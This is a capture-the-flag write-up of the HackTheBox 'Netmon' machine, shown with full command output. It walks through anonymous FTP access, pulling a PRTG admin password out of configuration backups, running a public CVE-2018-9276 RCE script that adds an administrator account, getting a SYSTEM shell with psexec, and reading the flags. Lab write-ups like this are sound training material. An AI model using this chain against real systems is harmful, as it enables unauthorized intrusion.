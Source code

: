 ```yaml
---
title: "Netmon"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Netmon

![](../assets/Pasted%20image%2020250508134550.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.152
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-08 13:47 CEST
Nmap scan report for 10.10.10.152
Host is up (0.042s latency).
Not shown: 62818 closed tcp ports (reset), 2704 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1m30s, deviation: 0s, median: 1m29s
| smb2-time: 
|   date: 2025-05-08T11:50:32
|_  start_date: 2025-05-08T11:48:21

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   41.88 ms 10.10.14.1
2   42.26 ms 10.10.10.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.58 seconds
```

The webpage shows a [PRTG Network Monitor (NETMON)](https://www.paessler.com/prtg) solution.

![](../assets/Pasted%20image%2020250508135810.png)

The `ftp` can be accessed anonymously and the `Windows` folder contains `PRTG Configuration.dat` with passwords.

```shell
$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:kali): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||54567|)
150 Opening ASCII mode data connection.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
ftp> cd windows
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||54568|)
150 Opening ASCII mode data connection.
11-20-16  09:53PM       <DIR>          ADFS
...
02-25-19  10:54PM              1189697 PRTG Configuration.dat

```

```shell
cat PRTG\ Configuration.dat | grep -C 10 password
...
<login>
  prtgadmin
</login>
<name>
  PRTG System Administrator
</name>
<ownerid>
  100
</ownerid>
<password>
  <flags>
	<encrypted/>
  </flags>
  <cell col="0" crypt="PRTG">
	JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
  </cell>
  <cell col="1" crypt="PRTG">
	OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
  </cell>
</password>
```

Nothing. Searching in the official documentation, we find [this article](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) and it says:

![](../assets/Pasted%20image%2020250508180130.png)

So, using the `ftp` access:

![](../assets/Pasted%20image%2020250508180227.png)

Get the three files and `grep password` on them:

```shell
cat PRTG\ Configuration.old.bak | grep -C 5 password  
  0
</dbauth>
<dbcredentials>
  0
</dbcredentials>
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
</dbpassword>
```

The credential doesn't work on the login form. Trying `2019` instead works.

![](../assets/Pasted%20image%2020250508181026.png)

There is an article explaining that RCE can be achieved using the notification system, and `searchsploit` has the script.

![](../assets/Pasted%20image%2020250508181944.png)

```shell
$ ./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=ezZEMTY5NTVELTk5MzctNDE0RS05RUZFLUU0MTZBMDE0RjQ1RX0%3D"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.                                                                                                             
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'               

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```

You can check the user with `nxc`:

![](../assets/Pasted%20image%2020250508182032.png)

```shell
$ impacket-psexec pentest:'P3nT3st!'@10.10.10.152
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file KCrmulCz.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service fcVl on 10.10.10.152.....
[*] Starting service fcVl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Post Exploitation

Get the flags:

```shell
C:\Users\Public\Desktop> type user.txt
0fe81dbc5fcd232892dc3c5b7fd24fcf

C:\Users\Administrator\Desktop> ype root.txt
6984b9873bd41d7af69204c3999c0d41
```
